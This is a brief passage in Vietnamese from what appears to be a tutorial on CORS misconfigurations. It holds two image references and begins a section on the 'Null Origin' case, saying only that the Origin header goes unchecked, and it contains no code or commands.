

Luồng khai thác được tóm tắt trong ảnh sau



## **7. Null Origin**
Với **Null Origin** sẽ không kiểm tra `Origin` mà cho phép tất cả các domain đều có quyền truy cập tài nguyên của webn